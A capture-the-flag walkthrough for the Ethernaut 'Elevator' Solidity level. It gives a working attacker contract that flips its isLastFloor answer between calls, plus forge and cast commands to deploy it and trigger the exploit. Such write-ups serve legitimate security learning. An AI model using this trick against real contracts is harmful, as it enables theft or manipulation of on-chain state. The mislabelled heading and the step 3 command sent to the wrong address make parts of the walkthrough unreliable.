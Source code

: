 ## Fallback Level Outline

**Difficulty : 4/10**

This elevator won't let you reach the top of your building. Right?

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xaB4F3F2644060b2D960b0d88F0a42d1D27484687)

## Solution

We can create a 'switch' variable that can be flipped after every function call effectively returning a different value on every call.

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Building {
    Elevator elevator;
    bool isTopFloor = false;

    constructor(address _elevator) {
       elevator = Elevator(_elevator); 
    }

    function attack() public {
        elevator.goTo(42);
    }
     
    function isLastFloor(uint _floor) external returns (bool) {
        bool tempSwtich = isTopFloor; 
        isTopFloor = !isTopFloor;
        return tempSwtich;
    }
}

interface Elevator {
    function goTo(uint _foor) external;
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:Building --constructor-args $LEVEL_ADDRESS --private-key $PRIVATE_KEY 
```

3. call our newly deployed contract 
```console
cast send $LEVEL_ADDRESS "attack()" --gas 300000 --private-key $PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

4. quick confirmation that boolean top has been changed
```console
cast call $LEVEL_ADDRESS "top()"
```
output 
```
0x0000000000000000000000000000000000000000000000000000000000000001
```
> variable top has changed form false to true

## Extra Resources
`public` and `private` are **visibility modifiers**

`pure` and `view` are **state modifiers**

- `pure`: promises functions that will neither read from nor modify the state. Note: Pure replaces constant in more recent compilers.
- `view`: promises functions that will only read, but not modify the state
- `default`: [no modifier] promises functions that will read and modify the the state

You can use the **view function modifier** on an interface in order to prevent state modifications. The **pure function modifier** also prevents functions from modifying the state. 
